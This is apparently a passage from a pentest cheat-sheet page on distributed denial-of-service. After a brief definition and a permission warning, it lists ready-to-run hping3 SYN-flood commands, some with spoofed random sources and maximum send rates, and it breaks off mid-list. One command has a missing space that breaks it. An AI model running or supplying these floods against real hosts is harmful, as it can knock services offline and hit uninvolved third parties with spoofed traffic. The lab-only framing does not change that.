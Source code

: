 # 💣 DDoS

{% hint style="info" %}
**Distributed denial-of-service** attacks target **websites** and online **services**. The aim is to overwhelm them with more traffic than the server or network can accommodate.&#x20;

**The goal is to render the website or service inoperable.**
{% endhint %}

{% hint style="danger" %}
## ⚠️<mark style="color:red;">WARNING</mark>⚠️

* _<mark style="color:yellow;">Do not use these commands against any IP that you have not been given explicit permission to test. If used otherwise you may violate local laws, or at least ISP terms of service.</mark>_
* _<mark style="color:yellow;">Commands that employ spoofing might cause responses to active public IP(s). Make sure you are runing in an isolated lab environmen that cannot route out to the Internet, or employ filters to prevent responses from leaking out.</mark>_
* <mark style="color:yellow;">**It is assumed that the user of this document knows which services are open and what ports they are running on.**</mark>
* <mark style="color:yellow;">Items in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">**< >**</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">brackets are parameters. Remove the brackets and enter the data specified</mark>
* <mark style="color:yellow;">In hping3 commands, remove the "--rand-source" for tests to use single source IP</mark>
* <mark style="color:yellow;">Scapy can be exited with a CTRL-D</mark>
{% endhint %}

## Attack commands

### TCP

```bash
# SYN Flood rate limited
hping3 -S -i u1000 -p $port $remote_IP

# SYN Flood rate limited, random IP
hping3 -S --rand-source -i u1 -p $port $remote_IP

# SYN Flood max
hping3 -S --rand-source --faster -p $port $remote_IP

# SYN and FIN set
hping3 -S -F --fast --rand-source -p $port $remote_IP

# SYN flood with large data
hping3 --verbose --syn --flood --win 65535 --ttl 64 --data 10000 --dontfrag --baseport 49877 --destport 80$remote_IP

# SYN flood with small data
hping3 --verbose --syn --flood --win 65535 --ttl 64 --data 100 --dontfrag --baseport 49877 --destport 80 $remote_IP

# SYN flood with PSH & URG set
hping3 --verbose --syn --push --urg --flood --win 65535 --ttl 64 --dontfrag --baseport 49877 --destport 80 $remote_IP

# SYN flood with ECN flag
hping3 --verbose --syn --xmas --flood --win 65535 --ttl 64 --dontfrag --baseport 49877 --destport 80 $remote_IP

# SYN flood with CWR flag
```